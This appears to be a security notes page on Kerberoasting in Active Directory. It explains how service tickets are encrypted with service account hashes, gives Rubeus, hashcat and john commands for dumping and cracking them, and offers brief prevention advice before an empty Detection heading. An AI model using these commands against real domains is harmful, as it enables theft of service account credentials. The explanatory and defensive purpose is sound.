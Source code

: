 See Active Directory module

# Kerberoasting 

In Active Directory, a [Service Principal Name (SPN)](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names) is a unique service instance identifier. Kerberos uses `SPNs` for authentication to associate a service instance with a service logon account, which allows a client application to request that the service authenticate an account even if the client does not have the account name. When a Kerberos `TGS` service ticket is asked for, it gets encrypted with the service account's NTLM password hash.

Kerberoasting is a post-exploitation attack that attempts to exploit this behavior by obtaining a ticket and performing offline password cracking to open the ticket. If the ticket opens, then the candidate password that opened the ticket is the service account's password. The success of this attack depends on the strength of the service account's password. Another factor that has some impact is the encryption algorithm used when the ticket is created, with the likely options being:

- `AES`
- `RC4`
- `DES` (found in environments that are 15+ old years old with legacy apps from the early 2000s, otherwise, this will be disabled)

There is a significant difference in the cracking speed between these three, as `AES` is slower to crack than the others. While security best practices recommend disabling `RC4` (and `DES`, if enabled for some reason), most environments do not. The caveat is that not all application vendors have migrated to support `AES` (most but not all). By default, the ticket created by the `KDC` will be one with the most robust/highest encryption algorithm supported. However, attackers can `force a downgrade` back to `RC4`.

## the Attack

From an AD User:
```PowerShell
.\Rubeus.exe kerberoast /outfile:spn.txt
```

from anywhere using one of the kerberoasted users's full hash line:
```bash
hashcat -m 13100 -a 0 spn.txt passwords.txt --outfile="cracked.txt"
```
Or
```bash
sudo john spn.txt --fork=4 --format=krb5tgs --wordlist=passwords.txt --pot=results.pot
```

## Prevention

Impose 100+ random characters (127 being the maximum allowed in AD) to ensure cracking is impossible. Best practise is [Group Managed Service Accounts](https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview), supported mainly by Microsoft Services (eg `IIS` and `SQL`).

## Detection
